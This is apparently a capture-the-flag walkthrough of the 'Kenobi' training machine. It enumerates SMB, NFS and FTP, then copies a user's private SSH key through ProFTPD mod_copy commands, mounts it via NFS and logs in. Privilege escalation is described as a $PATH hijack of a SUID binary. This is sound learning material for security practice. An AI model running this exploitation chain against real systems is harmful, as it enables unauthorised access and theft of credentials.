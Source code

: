 # Kenobi

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
A basic NFS, FTP and SMB machine. exploiting all of those will lead to an  RCE from which we can <mark style="color:red;">**manipulate a user's ssh key**</mark>.

Then for PrivEsc we will be redirecting the curl command in a binary with SUID bit enabled to spawn a shell for us using the <mark style="color:red;">**$PATH**</mark> variable. Same technique used [here ](wonderland.md)for lateral movement.
{% endhint %}

## Enumeration

### Nmap

```bash
$nmap <target-ip> -sV -sC -T4 -Pn -vv -oN kenobi-def-scan
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

I often jump to enumerating the FTP portal, but it lead to nothing so i went on to SMB.

### SMB

```bash
$nmap <target-ip> -p 139,445 --script=smb-enum-shares.nse,smb-enum-users.nse -T4 -Pn -vv -oN kenobi-smb-scan
```

Which leads to 3 SMB shares available:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Which is also confirmed with :&#x20;

```bash
$smbclient -L <target-ip>
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

So we try to connect to it:&#x20;

```bash
$smbclient //<target-ip>/anonymous
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
After much struggle, it turns out that I had a problem with my internet connection. Upon changing my router everything went flawless and the download was successful.
{% endhint %}

Now reading the logs we find this:&#x20;

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Okay the ssh keys of the user kenobi are stored in <mark style="color:purple;">/home/kenobi/.ssh/id\_rsa</mark> file.

Now we move on there's nothing else helpful in that log file.

### NFS

```
$nmap <target-ip> -p 111,2049 --script=nfs* 
```

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

### FTP

Okay now we go back to the FTP server. Banner grabbing show us the version :&#x20;

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Okay let's look for an exploit:

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Okay it's all about this mod\_copy thing.&#x20;

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Okay this exploit description is pretty self explanatory. We will aim at mounting whatever we want to a specific place we want .&#x20;

* So what do we have? the ssh key file of the kenobi user.&#x20;
* Where should we put it? In the NFS mounting directory.

Here we go.

## Foothold

So we will be using the CPFR (copy from) and CPTO (copy to) commands with the FTP server to put the <mark style="color:green;">/home/kenobi/.ssh/id\_rsa</mark> file in <mark style="color:red;">/var.</mark>

{% hint style="success" %}
It is always a good practice to copy it to the temporary directory just to keep the machine clean for other players.
{% endhint %}

```bash
$nc <target-ip> 21
<...>
SITE CPFR /home/kenobi/.ssh/id_rsa
<...>
SITE CPTO /var/tmp/id_rsa
<...>
```

```bash
$mkdir target-NFS
$sudo mount -t nfs <taget-ip>:/var ./target-NFS/ -o nolock
$cd target-NFS
```

Now we just connect to the target as kenobi using that key :smile:

```bash
$cp tmp/id_rsa /home/<user>/thm/kenobi                                                                  
$sudo chmod 600 id_rsa                                    
$ssh -i id_rsa kenobi@<target-ip>
```

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

## Priv Esc

{% hint style="warning" %}
This was the same technique we used on [Wonderland ](wonderland.md)machine to pivot from a user to another.
{% endhint %}

For priv esc, without directly going into automated scripts, we should look for some low hanging fruits. sudo -l gave un nill, we pass on to SUID/GUID bits.

```bash
$find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Okay a binary called menu, that's something. Let's run it&#x20;

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Okay the status check option could lead to something, if it probes the website using a vulnerable command or anything of that sort, we could take advantage of that. Let's do some static analysis on this file (basic CTF RE/pwn scenario)

```bash
$strings /usr/bin/menu
```

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Yeah well, executing curl, but WHICH curl ? :smile: if we change the $PATH variable to something of our choice instead of that curl command, it will execute ours.

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

